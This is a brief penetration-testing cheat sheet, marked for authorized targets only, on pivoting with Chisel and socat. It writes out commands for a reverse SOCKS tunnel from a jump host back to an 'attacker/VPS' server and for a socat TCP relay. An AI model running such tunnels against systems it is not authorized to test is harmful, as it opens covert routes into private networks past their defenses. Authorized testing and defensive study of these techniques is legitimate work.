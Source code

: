 # Chisel / Socat — Deep Dive (Authorized targets only)

## Chisel reverse SOCKS (common pattern)
# Server (attacker/VPS):
#   chisel server -p 9001 --reverse
# Client (jump host):
#   chisel client <SERVER_IP>:9001 R:socks
# Use proxychains with socks5 127.0.0.1 1080 (default) or shown port.

## Socat TCP relay
socat TCP-LISTEN:<LPORT>,fork TCP:<RHOST>:<RPORT>

## Notes
- Keep one terminal per tunnel; label them.
